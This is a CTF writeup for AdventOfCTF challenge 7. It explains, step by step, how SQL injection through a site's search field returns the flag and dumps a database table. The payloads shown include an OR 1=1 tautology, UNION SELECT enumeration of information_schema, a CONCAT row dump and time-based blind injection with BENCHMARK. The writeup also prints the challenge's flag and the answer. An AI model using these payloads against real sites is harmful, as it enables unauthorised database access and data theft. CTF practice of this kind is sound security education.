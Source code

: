 +++
author = "Maik de Kruif"
title = "Challenge 7 - AdventOfCTF"
date = 2020-12-07T16:43:23+01:00
description = "A writeup for challenge 7 of AdventOfCTF."
cover = "img/adventofctf/9fac6046540f4972c60f458b94aacb1d.png"
tags = [
    "AdventOfCTF",
    "challenge",
    "ctf",
    "hacking",
    "writeup",
    "web",
    "sql-injection",
]
categories = [
    "ctf",
    "writeups",
    "hacking",
]
+++

- Points: 700

## Description

Santa has a naughty list, I wonder who is on it? I hope it is not the blind mice!

Visit <https://07.adventofctf.com> to start the challenge.

## Finding the vulnerability

When opening the challenge website, we, yet again, see a search bar. Could this be another SQL Injection challenge? Let's try `'`. No result, bet the column name is also gone, so it probably do some SQL injection.

### SQL Injection

This time, no error message is shown. But the output is! (I'll get back to that later 😀.) First of all, let's get an idea of what the query to the database might be. I could be this:

```sql
SELECT why FROM naughty WHERE why LIKE '%search text%';
```

If this were the query, we can easily try to just get all records. To do this, we need to modify the `WHERE` statement to always be true. A way to do this is to add a `OR 1=1 -- ` to the query as `1` is always equal to `1`. But how do we do that? Well, is the backend doesn't properly create a query, we can escape the string inside the `WHERE` query and add our own code. An example input would be `' OR 1=1 -- `. If this would be inserted inside the query we would get this:

```sql
SELECT why FROM naughty WHERE why LIKE '%' OR 1=1 -- %';
```

If we input this (`' OR 1=1 -- `) in the search field, we get the flag! It is `NOVI{bl1nd_sql1_is_naughty}`

This flag can then be submitted for the [challenge](https://ctfd.adventofctf.com/challenges#7-8).

## Part 2

This, however, wasn't the solution the creator ([@credmp](https://twitter.com/credmp)) had intended. So he added another challenge. The description was this:

> Challenge 7 had a very unintended easy solution. This was my mistake and it did not surface during playtesting. In order to make it worth your while to solve the challenge in the intended way, please enter the username of the user on the naughty list to receive some additional (possibly very important) points

We can, however, solve this challenge in an unintended way as well 😀.

### Table name

Let's have a look at our guessed query again:

```sql
SELECT why FROM naughty WHERE why LIKE '%search text%';
```

This time, we probably want to get some other columns from the database. To do this, we have to know the table name first. A query to get all tables from a MySQL database is the following:

```sql
SELECT table_name FROM information_schema.tables --
```

If we adjust this query to be injectable in the original query, we get this:

```text
' UNION SELECT table_name FROM information_schema.tables --
```

Which, inside the query would look like the following:

```sql
SELECT why FROM naughty WHERE why LIKE '%' UNION SELECT table_name FROM information_schema.tables -- %';
```

Here we use a `UNION SELECT` to add rows from another table in to the results. The result of this input contains lots of rows, but if we strip the default ones, we get are left with one row:

| Who?    |
| ------- |
| naughty |

### Column names

Now that we know the table name, we can then get the columns from it with this query:

```sql
SELECT column_name FROM information_schema.columns WHERE table_name = "naughty"
```

If we convert this to an input, we get `' UNION SELECT column_name FROM information_schema.columns WHERE table_name = "naughty" -- `. This return the following rows:

| Who?     |
| -------- |
| id       |
| username |
| badthing |

### Table content

Knowing the table and column names, we can get all rows in the table. This output of the original query, however, only has one row. Because of this, we have to concatenate the results of the different columns together. A query for this would be:

```sql
SELECT CONCAT(id, " | ", username, " | ", badthing) FROM naughty
```

Converted to an input we get `' UNION SELECT CONCAT(id, " | ", username, " | ", badthing) FROM naughty -- `, which, after submitting it, gives us one row:

| Who?                                        |
| ------------------------------------------- |
| 1 \| egische \| NOVI{bl1nd_sql1_is_naughty} |

As the username is the second column, it is "egische".

This flag can then be submitted [here](<https://ctfd.adventofctf.com/challenges#Challenge%207%20(additional)-26>).

## The actual intended solution

The intended way to solve this challenge was to use blind SQL injection. Which means you do not get a visual response. You might think "How is that possible without a result?". It's actually pretty easy but it takes some time. A way to do it is to make queries take a long time if the query returns a row, but not wait if the result has zero rows.

### Database name

For instance, let's say the query in the backend is the following:

```sql
SELECT why FROM naughty WHERE other_column = 'search text';
```

To get the database name, we could write a query that takes some time if a sub-query returns a result and doesn't if it doesn't. An example of such a query would be the following:

```sql
SELECT CASE WHEN (SELECT DATABASE() LIKE "a%") THEN BENCHMARK(9000000,MD5(1)) ELSE 1 END
```

This would run `BENCHMARK(9000000,MD5(1))` if the sub-query returns more than 1 row. The `BENCHMARK()` is used because it's a function that takes a while to run.

This query will have to be converted to an input first. This will become `' UNION SELECT CASE WHEN (SELECT DATABASE() LIKE "a%") THEN BENCHMARK(9000000,MD5(1)) ELSE 1 END -- `

If we replace `a` with another letter we can find out the database name like this:

```text
a
b
...
t
ta
...
te
tea
...
tes
...
testdb
```

This will, of course, take some time.

### Other tables

To get the tables inside the database, the same method will have to be used. An example query for this would be the following:

```sql
SELECT CASE WHEN COUNT((SELECT table_name FROM information_schema.tables WHERE table_name LIKE "a%" AND table_schema = "testdb" LIMIT 1))>0 THEN BENCHMARK(9000000,MD5(1)) ELSE 1 END
```

Which will convert to `' UNION SELECT CASE WHEN COUNT((SELECT table_name FROM information_schema.tables WHERE table_name LIKE "a%" AND table_schema = "testdb" LIMIT 1))>0 THEN BENCHMARK(9000000,MD5(1)) ELSE 1 END -- `

By using this method, we can get the all database records but it will take a long time.
